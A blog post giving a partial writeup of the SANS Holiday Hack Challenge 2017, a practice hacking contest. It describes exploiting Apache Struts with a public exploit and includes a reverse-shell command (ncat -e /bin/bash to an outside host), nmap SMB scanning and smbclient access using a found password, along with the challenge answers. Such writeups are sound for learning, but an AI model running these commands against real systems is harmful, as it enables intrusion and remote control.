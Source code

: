 ```yaml
---
layout: post
title: "SANS Holiday Hack Challange 2017: Writeup"
date: 2019-01-11 19:30
type: post
published: true
comments: true
categories: ctf
---
```


SANS hosted their yearly [Holiday Hack Challenge](https://holidayhackchallenge.com) this year as well.
It was a fun event, even though I think the story/non-hacking part was better last year.
Here is my writeup of the challenges. It's not the most thorough writeup I've done but it outlines my process of solving them.

## Questions

> 1. Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball. What is the title of that page?

Play the snowball game to get the page.

**Answer:** The title of the page is "About this Book..."


> 2. Investigate the Letters to Santa application at https://l2s.northpolechristmastown.com. What is the topic of The Great Book page available in the web root of the server? What is Alabaster Snowball's password?

Look at the source code to find the link to the development site. Look at the bottom to see that it uses Apache Struts.
It's also hinted that it can be exploited through the reference to Equifax. Searching "https://www.exploit-db.com/", we find a number of explits.
Trying out a few, we find that ID 42627 works. Using it with the command `ncat -e /bin/bash mydomain.com 5000` gives us a reverse shell.
Looking at the default webroot /var/www/html we find page 2 of the great book which can be accessed through "https://l2s.northpolechristmastown.com/GreatBookPage2.pdf".
Looking in the Apache Tomcat directory we can find Alabaster Snowball's password in "/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class"

**Answer A:** The title of the page is "On the Topic of Flying Animals"  
**Answer B:** Alabaster Snowball's password is "stream_unhappy_buy_loss"  

> 3. The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

Using the password we can SSH into the server and run an nmap scan for SMB through `nmap -p137-139,445 -Pn 10.142.0.0/24`
We find a suitable server at "10.142.0.7", enumerate and browser it with `smbclient -L localhost -U 'alabaster_snowball'` and `smbclient //localhost/FileStor -U alabaster_snowball stream_unhappy_buy_loss` respectively.
The files can then be downloaded.
